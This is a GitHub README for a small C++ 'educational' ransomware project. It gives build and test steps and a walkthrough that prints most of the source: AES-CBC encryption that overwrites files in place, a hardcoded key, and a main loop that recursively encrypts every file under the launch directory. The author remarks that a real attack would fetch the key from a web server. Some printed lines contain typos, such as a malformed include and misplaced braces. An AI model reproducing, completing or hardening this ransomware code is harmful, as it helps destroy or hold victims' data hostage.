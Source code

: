 ## About
- **INTENDED FOR EDUCATIONAL PURPOSES ONLY.**
- This ransomware is a very simple program that encrypts instead of a whole drive only recursively files from the folder it was
started from.
- It is very heavy on processor and even if I managed to lower RAM usage it's still not perfect.

## Requirements
- `crypto++` C++ library for `ransomware.cpp`.
- `wget`, `dd` and `yes` for `maketest.sh`.
- `gcc` for build.

## Build
1. `git clone https://github.com/ErnestNoga/ransomware`
2. `cd ransomware`
3. `mkdir build`
4. `cd build`
5. `cmake ..`
6. `make`  
After all these steps are completed you should have file called `ransomware` in current folder, it is an executable
that will encrypt all files recursively from the folder it was launched from.

## Testing
If you wish to see how the ransomware works in practice then this part is for you.  
1. `cd` into the cloned repository folder after it was [built](https://github.com/ErnestNoga/ransomware#user-content-build).
2. `./maketest.sh` and wait. This will take a long time.
3. `cd test`
4. Now go through all files and see their unencrypted values. **TIP:** use `cat ./<FILE_NAME>` when reading files in `weird_names` directory.
When checking `a_lot_of_dirs` use `for` loop to enter directories inside.
example in bash: `for i in {1..100..1}; do cd $i; done`. When exiting the directory use the same for loop but change `$i`
to `..`.
5. Now enter once again the main test directory
6. `../build/ransomware`and wait again this too will take a long time depending on the processing power of your PC.
7. Now inspect the files again to see their encrypted versions.
8. Go back to main test directory.
9. `../build/ransomware 1` and wait for files to decrypt. `1` can be replaced by any other argument only thing that matters
is that total argument number won't be less than 2.
10. Check files once again and see their decrypted values. It should be the same.

## Walkthrough
This part of README.md will be focused on explaining how ransomware works

> ### Imports
>>These are imports of this program, all the ones beginning with `cryptopp` belong to `crypto++` library which is used for encryption itself.
>> You can remove some of those imports without breaking the code because they are already imported by some header files included before, 
>> but I felt I should leave them there anyway for clarity's sake.
>>```c++
>> #include <cryptopp/aes.h>
>> #include <cryptopp/files.h>
>> #include <cryptopp/modes.h>
>> #include <cryptopp/channels.>
>>
>> #include <experimental/filesystem>
>> #include <string>
>>```  

> ### Custom namespaces
>> This line of code shortens `std::experimental::filesystem` namespace to `fs`.
>> ```c++
>> namespace fs = std::experimental::filesystem;
>> ```

> ### Encrypt function
>>This `void encrypt` function is defined as `void` since it does not return anything,
it requires two arguments: `filename` which is path of the file to encrypt and reference to `pwd` which is passphrase used to encrypt the file.
>> ```c++
>> void encrypt(const char filename[], const std::string &pwd)
>> ```
>>
>> Next line of `encrypt` function prints information about current file that is being encrypted 
>> ```c++
>> std::cout << "Encrypting: " << filename << std::endl;
>> ```
>>
>> Then we define `temp_filename` variable which will be the name of temporary file that `encrypt` function will be writing encrypted data to.
>> ```c++
>> const char temp_filename[] = "temp";
>> ```
>>
>> After that we create `iv` array of `CryptoPP::byte` which will be our initialization vector with size of 16 and set all of its indexes to `0x01` byte
>> ```c++
>> CryptoPP::byte iv[16];
>> memset(iv, 0x01, 16);
>> ```
>>
>> Next we define our `encryptor` object which requires three arguments: array of CryptoPP::byte as passphrase, passphrase
>> length and initialization vector. We specify AES CBC mode.
>> ```c++
>> CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption encryptor((CryptoPP::byte*)&pwd[0], pwd.size(), iv);
>> ```
>>
>> Next we create `filter` object which requires three arguments: stream transformer which will be used to transform data
>> put into it
>> and unnamed `CryptoPP::FileSink` object which is basically the destination file. After that we create `channel_switch` object
>> used for optimization, and we add to it default route through `filter`
>> ```c++
>> CryptoPP::StreamTransformationFilter filter(encryptor, new CryptoPP::FileSink(temp_filename));
>> CryptoPP::ChannelSwitch channel_switch;
>> channel_switch.AddDefaultRoute(filter);
>> ```
>>
>> Then we create two `CryptoPP::FileSource` objects: first one pumps all our data through filter, second one will move encrypted
>> data to original file. Both of these objects require three arguments: source file, whether to read and process all data, and
>> `CryptoPP::BufferedTransformation` object such as filter or sink. I could have also just renamed the temporary file, 
>> but that would cause the original file to lose all permissions it previously had.
>> ```c++
>> CryptoPP::FileSource(filename, true, new CryptoPP::Redirector(channel_switch));
>> CryptoPP::FileSource(temp_filename, true, new CryptoPP::FileSink(filename));
>> ```
>>
>> After that remove our temporary file.
>> ```c++
>> fs::remove(temp_filename);
>> ```

> ### Decrypt function
>> `decrypt` function is basically the same as `encrypt` just that the `CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption` is changed to
>> `CryptoPP::CBC_Mode<CryptoPP::AES>::Decryption` and some variable names, so I'm not going to waste both of our time explaining it.

> ### Main function
>> This is standard definition of main function in both c and c++, `int argc` is argument count, and `char **argv` is
>> array of arguments.
>> ```c++
>> int main(int argc, char **argv)
>> ```
>>
>> This is creation of pwd string variable it is created with const keyword because it will not be changed. During
> real attack we would download passphrase from web server or use some other way to make it unreadable from compiled file.
>> ```c++
>> const std::string pwd = "12345678901234567890123456789012";
>> ```
>> 
>> `if` statement checks if argument count is 1, because if it is then we can be sure that only executable path was given.
>> If `argc == 1` then it starts for loop iterating through contents of current directory recursively, and if the path
>> of current iteration isn't a directory then it encrypts it. In the case where `argc != 0` then it instead decrypts
> the files.
>> ```c++
>> if (argc == 1) {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          encrypt(i.path().string().c_str(), pwd);
>>       } else {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          decrypt(i.path().string().c_str(), pwd);
>>    }
>> }
>> ```